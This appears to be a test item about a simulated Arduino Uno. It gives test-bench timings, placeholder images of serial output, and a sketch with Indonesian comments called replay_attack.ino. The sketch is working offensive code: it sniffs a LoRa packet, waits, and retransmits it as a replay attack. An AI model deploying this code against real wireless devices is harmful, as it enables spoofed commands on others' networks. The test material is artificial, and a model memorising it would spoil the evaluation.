
The sketch below on a simulated Arduino Uno, built for the host (arithmetic inside an expression is 32-bit, double 64-bit). Parts: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band). No radio packets arrive unless stated.

Above: at 2.2 s.
2.3 s: radio packet "1" arrives
At 3.7 s:

At 8.7 s:


The sketch:

replay_attack.ino
```cpp
#include <SPI.h>
#include <LoRa.h>

// Pinout LoRa sesuai hardware kamu
#define LORA_SCK   12
#define LORA_MISO  13
#define LORA_MOSI  11
#define LORA_SS    10
#define LORA_RST   5
#define LORA_DIO0  4

#define LORA_FREQ 435E6

// Buffer untuk merekam paket yang di-sniff
String replayed_data = "";
bool has_captured = false;

void setup() {
  Serial.begin(115200);
  delay(1000);

  // Inisialisasi SPI dan Pin LoRa
  SPI.begin(LORA_SCK, LORA_MISO, LORA_MOSI, LORA_SS);
  LoRa.setPins(LORA_SS, LORA_RST, LORA_DIO0);

  if (!LoRa.begin(LORA_FREQ)) {
    Serial.println("LoRa gagal start");
    while (1);
  }

  // Konfigurasi parameter jaringan (harus sama dengan target)
  LoRa.setSpreadingFactor(7);
  LoRa.setSignalBandwidth(125E3);
  LoRa.setCodingRate4(5);
  LoRa.enableCrc();

  Serial.println("[ATTACKER] LoRa Replay Machine Ready...");
}

void loop() {
  // 1. FASE SNIFFING (Mendengarkan & Merekam Data)
  if (!has_captured) {
    int packetSize = LoRa.parsePacket();

    if (packetSize) {
      replayed_data = ""; // Clear buffer

      // Baca isi paket payload
      while (LoRa.available()) {
        replayed_data += (char)LoRa.read();
      }

      Serial.println("\n=== [ATTACKER] Paket Valid Tertangkap ===");
      Serial.print("RSSI : "); Serial.println(LoRa.packetRssi());
      Serial.print("SNR  : "); Serial.println(LoRa.packetSnr());
      Serial.print("DATA : "); Serial.println(replayed_data);

      has_captured = true; // Kunci data, siap masuk fase attack
      Serial.println("[ATTACKER] Mempersiapkan waktu delay untuk replay...");
      delay(5000); // Jeda waktu sebelum melakukan replay (mengelabui aspek waktu/fase)
    }
  }
  // 2. FASE REPLAY (Mengirim Ulang Paket Payload)
  else {
    Serial.println("\n[ATTACKER] Melancarkan Replay Attack...");

    // Kirim ulang paket yang persis sama ke jaringan LoRa
    LoRa.beginPacket();
    LoRa.print(replayed_data);
    LoRa.endPacket();

    Serial.println("[ATTACKER] Paket berhasil di-replay!");

    // Reset flag kalau mau nge-sniff paket baru lagi, atau delay untuk terus membombardir paket yang sama
    has_captured = false;
    delay(5000); // Jeda antar serangan berikutnya
  }
}
```

Measured:
- after the input at 2.3 s, the serial monitor: prints a new line at once (image 1)
